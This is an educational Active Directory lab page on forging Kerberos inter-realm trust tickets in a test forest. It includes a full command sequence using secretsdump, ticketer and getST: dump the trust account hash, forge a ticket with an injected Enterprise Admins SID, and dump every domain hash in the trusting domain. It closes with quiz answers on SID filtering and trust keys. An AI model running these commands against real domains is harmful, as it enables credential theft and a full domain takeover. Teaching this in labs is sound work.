

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/ForgingTrustTickets/index.html · generator: mkdocs

#Forging Trust Tickets

Earlier, we've performed the Trustpocalypse attack, which forges a TGT with an injected SID: The EAs SID.
This TGT is then sent to the CAPTAIN, CAPTAIN will create a Trust Ticket, or an Inter-Realm Ticket, and forward this ticket to the CHIEF DC. This Trust Ticket is encrypted using the trust key, rather than with the krbtgt's key.

In this attack, we'll cut to the chase and forge the trust ticket itself using the trust key. Instead of forging a TGT and letting the trusted DC (CAPTAIN) generate the inter-realm ticket, we now forge the inter-realm ticket ourselves using the trust key (ALTAIR$). This allows direct access to services in the trusting domain (ALTAIR) without relying on CAPTAIN. We'll follow the same steps as in the Trustpocalypse attack. This attack helps further understanding how cross domain authentication is processed from an attacker's point of view. The end result of this attack is the same as the Trustpocalypse attack.

```
#retrieve the ALTAIR$ password hash, the trust account present in CAPTAIN
#remember to use your own hashes from your environment, they might be different
secretsdump.py north.altair.local/administrator@192.168.122.10 -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86
#[+] ALTAIR$:1103:aad3b435b51404eeaad3b435b51404ee:5c637c666075bc3fe4ba6d5688536cc1:::
#forge a referral ticket
ticketer.py -nthash 5c637c666075bc3fe4ba6d5688536cc1 -domain-sid S-1-5-21-1162943719-2261011477-1519509434 -domain north.altair.local -extra-sid S-1-5-21-1073456172-1737515156-949376640-519 -spn krbtgt/altair.local berntheman
export KRB5CCNAME=/home/ubuntu/berntheman.ccache
#use the interrealm ticket to get a service ticket to the cifs/smb service with EA privileges
getST.py -k -no-pass -spn cifs/chief.altair.local altair.local/berntheman@altair.local -debug
#compromise the altair domain
export KRB5CCNAME=/home/ubuntu/berntheman@altair.local@cifs_chief.altair.local@ALTAIR.LOCAL.ccache
secretsdump.py -k -no-pass -just-dc-ntlm berntheman@chief.altair.local
```

Done! This is a different way of forging a ticket that compromises trusting domains!

!!! question
    What's the difference between this and the Trustpocalypse attack?
??? success "Answer"
    In Trustpocalypse, the attacker forges a TGT and lets the trusted DC create the trust ticket.
    In this attack, the attacker forges the trust ticket directly using the trust key, bypassing the trusted DC.

!!! question
    Would SID Filtering mitigate this attack?
??? success "Answer"
    Yes, SIDs from different domains would still be filtered when authenticating to the altair domain, which would render this attack useless.

!!! question
    What role does the trust key have play in cross-domain authentication?
??? success "Answer"
    The trust key is used to encrypt and sign trust tickets issued by the trusted domain, proving their validity to the trusting domain. Through the use of a trust key, the trusting domain can determine if the ticket is actually sent from a trusted domain, since trust keys are agreed between trusted and trusting domains upon trust relationship establishment.
